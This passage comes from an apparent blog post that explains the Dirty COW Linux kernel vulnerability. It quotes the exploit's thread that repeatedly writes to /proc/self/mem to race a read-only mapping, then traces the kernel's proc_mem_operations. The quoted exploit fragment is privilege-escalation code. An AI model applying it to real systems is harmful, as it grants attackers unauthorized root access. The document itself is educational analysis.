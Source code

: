 Moving on to the other thread, here comes the meat of the attack:

```c
void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    /*
       You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
       >  The in the wild exploit we are aware of doesn't work on Red Hat
       >  Enterprise Linux 5 and 6 out of the box because on one side of
       >  the race it writes to /proc/self/mem, but /proc/self/mem is not
       >  writable on Red Hat Enterprise Linux 5 and 6.
     */
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        /*
           You have to reset the file pointer to the memory position.
         */
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```

So it first `lseek`s to the address of `map`, then call `write(2)` so it can directly modify the memory region that belongs to the supposedly _read-only_ memory mapping of the file? And somehow the modification will go through to the privileged file? But _how_???!!!

## `write(2)` on `/proc/{pid}/mem`

`/proc/{pid}/mem` is a [pseudo file](http://man7.org/linux/man-pages/man5/proc.5.html) that provides a sort of out-of-band memory access to a process. Another example of this type of access is the venerable [`ptrace(2)`](http://man7.org/linux/man-pages/man2/ptrace.2.html), which is, unsurprisingly, an alternative attack vector of Dirty COW.

To see how writing to `proc/self/mem` works, we'll need to burrow deeper into the kernel land. First by looking at how `write(2)` is implemented for this pseudo file.

In the land of kernel, file system operations are written in OOP style. Having one common abstract interface `struct file_operations`, different file types can provide specialised file operation implementation against the interface. For `/proc/{pid}/mem`, the definition can be found here at [`/fs/proc/base.c`](http://lxr.linux.no/linux+v4.8/fs/proc/base.c#L933):

```c
static const struct file_operations proc_mem_operations = {
    .llseek  = mem_lseek,
    .read    = mem_read,
    .write   = mem_write,
    .open    = mem_open,
    .release = mem_release,
};
```
